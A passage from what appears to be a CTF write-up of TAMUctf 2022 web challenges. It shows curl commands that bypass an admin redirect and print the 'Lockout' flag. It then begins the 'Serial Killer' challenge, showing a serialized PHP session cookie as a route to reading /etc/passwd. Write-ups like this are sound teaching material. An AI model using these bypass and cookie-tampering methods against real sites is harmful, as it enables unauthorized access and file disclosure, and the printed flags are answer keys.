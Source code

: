 > I seem to have locked myself out of my admin panel! Can you find a way back in for me?<br>
> **Do not connect with HTTPS, make sure to connect with HTTP**<br>
> Link: [http://lockout.tamuctf.com](http://lockout.tamuctf.com)

The network packets revealed that the login form `POST` the login information to `admin.php`, which has a `302` redirection back to `login.php`.

![tamuctf-2022-lockout.jpg]({{ site.url }}{{ site.baseurl }}/assets/posts/tamuctf-2022-lockout.jpg)

The easiest way to prevent redirection is to use `curl`, which revealed a form at the `admin.php` page containing a single input `PrintFlag`.

```bash
└─$ curl http://lockout.tamuctf.com/admin.php

<!DOCTYPE html>
<head>
    <link rel="stylesheet" href="/static/admin.css">
</head>
<body>
    <h1>Industry Night Shopping List</h1>
    <p>Croc Martins</p>
    <img src="static/crocmartins.jpg" alt="Croc-Martins">
    <form action="admin.php" method="get">
        <input type="submit" name="PrintFlag" value="PrintFlag">
    </form>
</body>
```

The parameter `PrintFlag` was then given as `GET /admin.php?PrintFlag` and the flag was returned.

```bash
└─$ curl http://lockout.tamuctf.com/admin.php?PrintFlag  
<p>gigem{if_i_cant_wear_croc_martins_to_industry_night_then_im_not_going}</p>
<!DOCTYPE html>
...
```

Flag: `gigem{if_i_cant_wear_croc_martins_to_industry_night_then_im_not_going}`

<br>

### Serial Killer
`100 points` `99 solves`

> I'm tryinig a new way to display files on my website. Can you try to break it for me?<br>
> **Do not connect with HTTPS, make sure to connect with HTTP**<br>
> Link: [http://serial.tamuctf.com](http://serial.tamuctf.com)<br>
> Tip: The flag is located in the `/etc/passwd` file.

A `PHPSESSID` cookie was found and seemed to be encoded in Base64.

```text
PHPSESSID=Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D
```

![tamuctf-2022-serial-1.jpg]({{ site.url }}{{ site.baseurl }}/assets/posts/tamuctf-2022-serial-1.jpg)
